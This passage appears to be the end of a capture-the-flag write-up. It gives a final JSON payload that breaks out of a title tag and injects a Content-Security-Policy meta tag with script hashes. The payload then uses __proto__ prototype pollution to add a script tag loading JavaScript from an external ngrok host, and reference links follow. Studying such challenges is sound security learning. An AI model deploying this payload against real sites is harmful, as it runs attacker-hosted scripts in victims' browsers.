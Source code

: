 The final payload:

```json
{"name":"</title> <meta http-equiv='Content-Security-Policy' content=\"script-src * 'sha256-eyVKju/vSji+klXiXwhgD7spFJI0/Kk10K2eq4a9NCU=' 'sha256-8+tX0RdD8rNbWDDLNb3z8ixoi28g7G5On2AwCBePR0Y=' \"><title>","category": "asd", "value":"1337", "__proto__":{"tag":"script","attributes":{"src":"https://6f40-105-235-137-14.ngrok.io/asd.js", "id": "vvxhid"}}}
```

![](images/challenge-12.png)

![](images/challenge-13.png)

### References
  - https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP
  - https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution/client-side-prototype-pollution